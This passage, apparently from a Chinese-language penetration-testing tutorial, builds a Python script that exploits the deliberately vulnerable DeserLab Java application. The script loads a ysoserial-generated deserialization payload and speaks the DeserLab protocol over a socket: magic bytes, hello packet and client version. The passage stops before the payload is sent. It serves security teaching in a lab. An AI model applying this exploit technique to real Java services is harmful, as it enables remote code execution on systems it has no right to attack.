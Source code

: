 首先，我们将导入 Python 的`socket`库，并设置一些描述目标的变量：

```
import socket

target_host = '**deserlab.app.internal**'
target_port = **4321**

```

我们稍后会引用这些变量。接下来，我们将使用`open()`、`read()`和最后的`close()`将`deserlab_payload.bin`文件读取到一个名为`payload`的变量中，如下代码所示：

```
**# Open the ysoserial generated exploit payload**
print "[+] Reading payload file..."
f = **open**(**'deserlab_payload.bin**', 'rb')
**payload** = f.**read**()
f.**close**()
```

`payload`变量现在包含了 ysoserial 生成的原始字节，我们将使用这些字节来利用目标主机。下一步是创建一个到 DeserLab 服务器应用的 socket，并将引用对象存储在一个名为`target`的变量中。我们将使用这个引用变量来发送和接收来自连接的数据。

```
**target** = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
**target**.connect((**target_host**, **target_port**))
```

此时，我们的脚本将模拟 DeserLab 客户端，并且为了成功连接并能够发送我们的漏洞利用代码，我们需要首先执行几个步骤。回想一下，客户端发送了一些必要的字节，包括 hello 数据包和客户端版本。

我们将使用`send()`和`recv()`方法来发送和读取响应，以便通信能够继续进行。由于某些字节可能超出 ASCII 可读范围，我们应使用它们的十六进制表示来转义。Python 允许我们使用反斜杠（`\`）和`x`前缀来表示十六进制字节。例如，字符`A`可以在 Python（以及其他语言）中表示为`\x41`。

在我们执行发送操作后，我们还应该接收来自服务器的任何数据。我们不需要存储服务器的响应，但必须接收它以清除缓冲区并允许套接字通信继续进行。

首先，我们将发送`0xAC 0xED`魔术字节，接着是 hello 数据包，最后是期望的客户端版本。我们必须为 hello 和版本数据包加上`0x77`字节，并紧跟数据长度。例如，客户端版本`0x01 0x01`需要由`0x77`（表示数据包）和`0x02`（数据包长度）前缀。

以下代码将发送魔术字节、hello 数据包和客户端版本：

```
**# Send magic bytes and version**
target.send("**\xAC\xED\x00\x05**")
target.recv(1024)

**# Send 'hello' packet**
target.send("**\x77\x04**")
target.send("**\xF0\x00\xBA\xAA**")
target.recv(1024)

**# Send client version**
target.send("**\x77\x02**")
target.send("**\x01\x01**")
target.recv(1024)
```

我们还必须发送客户端名称，可以是任意的，但这是必需的。我们只需确保`0x77`前缀和数据长度是准确的：
